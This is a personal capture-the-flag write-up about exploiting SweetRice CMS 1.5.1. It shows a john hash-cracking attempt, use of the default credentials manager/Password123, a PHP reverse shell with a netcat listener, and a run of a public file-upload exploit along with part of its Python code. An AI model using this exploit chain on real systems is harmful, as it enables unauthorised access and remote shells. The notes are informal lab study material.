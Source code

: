 1. **Serialized PHP Arrays** - The cached data is PHP serialized arrays
    
2. **Database Result Caching** - These are cached SQL query results
    
3. **Configuration/Content Storage** - Site content, settings, menus, etc.

AI slop is informing me these COULD be cached queries which aren't crackable by rockyou however if the queries are single passwords we can pull off cracking

root@ip-10-201-78-158:~# john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

got me nowhere sooooooooooooooo screw that i'm not manually enumerating schema in sqlite3 all day, this is a basic CTF

obv there isnt a firewall rule blocking uncommon ports cuz this is a basic CTF

In an unpatched version of the SweetRice Content Management System (CMS), the default login for the administrative panel was `manager` with the password `Password123`. This credential combination was associated with a vulnerability discovered in version 1.5.1 of the software

I got this slop from AI so let's give it a wack

![[Pasted image 20251024094102.png]]

oh sweet lol proof of concept for creds

root@ip-10-201-78-158:~# git clone https://github.com/pentestmonkey/php-reverse-shell

obv edit IP param to my ens5 adapter

nc -lnvp 1234 

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.201.50.69
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
root@ip-10-201-78-158:~# ls

```py
with session() as r:
    login = r.post('http://' + host + '/as/?type=signin', data=payload)
    success = 'Login success'
    if login.status_code == 200:
        print("[+] Sending User&Pass...")
        if login.text.find(success) > 1:
            print("[+] Login Succssfully...")
        else:
            print("[-] User or Pass is incorrent...")
            print("Good Bye...")
            exit()
            pass
        pass
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
```
